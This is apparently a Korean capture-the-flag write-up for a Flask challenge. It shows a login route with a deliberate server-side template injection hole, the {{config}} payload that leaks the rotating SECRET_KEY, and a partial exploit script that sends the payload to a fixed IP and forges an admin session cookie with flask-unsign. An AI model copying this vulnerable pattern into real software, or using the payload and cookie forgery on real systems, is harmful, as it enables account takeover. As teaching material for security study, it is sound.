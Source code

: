 ```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if len(username) > 11: 
            return render_template_string('<script>alert("username too looooong"); location.href="/login"</script>')
        if username == 'guest' and password == users.get('guest'):
            session['guest'] = True
            return redirect(url_for('guest'))
        elif username in users and users[username] == password:
            session['admin'] = True if username == 'admin' else False
            return redirect(url_for('admin'))
        else:
            # ssti
            return render_template_string(f"{username} is wrong username or password")
    return render_template('login.html')
```   
로그인에 실패할 경우, `render_template_string()` 함수를 통해 랜더링이 됩니다. 하지만, 해당 함수는 SSTI 취약점을 발생시킬 수 있습니다.   

`username` 값으로 `{{config}}`를 입력하면, `config` 클래스에 저장된 `SECRET_KEY` 값을 알아낼 수 있습니다.     
       
```python
def generate_new_secret_key():
    return os.urandom(30).hex()

def update_secret_key():
    while True:
        time.sleep(0.5)
        with secret_key_lock:
            app.secret_key = generate_new_secret_key()
thread = threading.Thread(target=update_secret_key)
thread.start()
```     
대신, 0.5초 마다 새로운 `SECRET_KEY`를 생성하기 때문에 `{{config}}`를 통해 얻은 `SECRET_KEY`를 바로 사용해줘야 합니다.    
     
`SECRET_KEY`를 사용하여 `admin` 계정의 JWT 토큰을 생성해주면, `/admin` 경로에 접근이 가능하여 플래그를 획득할 수 있습니다.               
     
<img src="/randomsecret/flag.jpg" width="700px"/>   
            
## Exploit Code     
```python
import requests 
import os

url = "http://3.36.132.18:4000"

s = requests.session() 
r = requests.post(
        f"{url}/login", 
        data={
            "username": "{{config}}",
            "password": "test"
        }
)
        
secret_key = r.text[r.text.find("SECRET_KEY") + 22: r.text.find("SECRET_KEY") + 82]

header = {"admin": True}
cmd = "flask-unsign --sign --cookie \"" + "{'admin': 'true'}" + f"\" --secret '{secret_key}'"
print(cmd)
jwt_encode = os.popen(cmd).read().split("\n")[0]
        
```